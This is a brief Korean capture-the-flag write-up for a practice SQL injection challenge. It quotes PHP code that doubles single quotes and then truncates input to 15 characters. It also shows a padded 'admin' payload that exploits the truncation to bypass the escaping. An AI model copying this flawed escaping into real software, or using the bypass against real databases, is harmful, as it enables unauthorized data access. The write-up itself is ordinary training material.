

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**


# **Write-Up**

view-source를 클릭해보면 \\는 없어지고, ' 는 ' 2번으로 바뀐 뒤 15글자까지 추출한다. 또한 where 절에서 ' 가 안닫혀있다.

```php
... 생략 ...
<?php
  $db = dbconnect();
  if($_POST['id']){
    $_POST['id'] = str_replace("\\","",$_POST['id']);
    $_POST['id'] = str_replace("'","''",$_POST['id']);
    $_POST['id'] = substr($_POST['id'],0,15);
    $result = mysqli_fetch_array(mysqli_query($db,"select 1 from member where length(id)<14 and id='{$_POST['id']}"));
    if($result[0] == 1){
      solve(39);
    }
  }
?>
... 생략 ...
```

따라서 15번째에 ' 가 있다면 ''로 바뀌어도 15번째 까지는 ' 이라서 통과가 될 것이다.

```python
print('admin' + ' '*(14 - len('admin')) + '\'')

[Output]
admin         '
```

입력하여 점수를 획득하자.

